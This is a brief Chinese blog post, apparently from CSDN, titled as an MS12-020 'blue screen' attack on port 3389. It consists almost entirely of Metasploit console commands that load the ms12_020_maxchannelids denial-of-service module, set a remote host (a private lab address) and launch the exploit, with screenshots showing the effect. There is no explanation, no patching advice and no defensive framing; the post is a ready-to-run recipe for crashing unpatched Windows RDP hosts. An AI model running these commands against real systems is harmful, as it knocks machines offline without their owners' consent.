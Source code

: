 ```yaml
---
title: MS12-020 3389蓝屏攻击
date: 2018-05-07
tags: Metasploit
layout: post
---
```



```
search ms12_020
use exploit/dos/windows/rdp/ms12_020_maxchannelids
```
![这里写图片描述](https://img-blog.csdn.net/20180507114503715?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

```
set rhost 192.168.222.1
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180507114738713?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>效果如下

![这里写图片描述](https://img-blog.csdn.net/20180507114747708?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

